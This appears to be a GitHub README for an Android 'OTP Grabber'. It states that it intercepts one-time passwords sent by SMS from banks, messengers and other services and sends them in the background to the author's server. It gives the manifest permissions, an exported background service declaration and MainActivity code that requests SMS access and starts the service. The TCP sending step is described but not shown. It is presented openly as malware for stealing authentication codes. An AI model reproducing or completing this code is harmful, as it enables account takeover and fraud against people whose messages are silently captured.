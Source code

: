 ### Android OTP Grabber
<img align="left" src="https://github.com/user-attachments/assets/05657d25-a502-47f9-962d-eda12ca186b5" width="550" height="250">

OTP (SMS) Grabber for Android:zns6:

OTP is short for One–Time Password (one-time password) and is a temporary secure PIN code
that is sent to you via SMS or email and is valid for only one session.

Such confirmations can come from various services, including banking applications, messengers and other platforms.
We will intercept these messages and send them to our server in the background, working as a service.

#### Permissions in AndroidManifest.xml -

```
<uses-feature
        android:name="android.hardware.telephony"
        android:required="false" />

    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.READ_SMS" />
    <uses-permission android:name="android.permission.FOREGROUND_SERVICE" />
    <uses-permission android:name="android.permission.SEND_SMS"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
```

To access SMS and run the code in the background, we need to define the appropriate permissions in AndroidManifest.xml .
Also, in the manifest, you need to specify our service, which will be SMSService. -

```
<service
            android:name=".SMSService"
            android:enabled="true"
            android:exported="true" />
```
MainActivity.java -
In MainActivity, you need to check whether you have received permissions to access SMS. If permissions are granted, the SMS Service is started,
which sends SMS to the server over TCP in the background.

```
private static final int REQUEST_READ_SMS_PERMISSION = 3004;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        if (ContextCompat.checkSelfPermission(this, Manifest.permission.READ_SMS) != PackageManager.PERMISSION_GRANTED
                || ContextCompat.checkSelfPermission(this, Manifest.permission.INTERNET) != PackageManager.PERMISSION_GRANTED) {
            ActivityCompat.requestPermissions(this, new String[]{Manifest.permission.READ_SMS, Manifest.permission.INTERNET}, REQUEST_READ_SMS_PERMISSION);
        } else {
            startSMSService();

        }
    }

    private void startSMSService() {
        Intent serviceIntent = new Intent(this, SMSService.class);
        startService(serviceIntent);
    }
```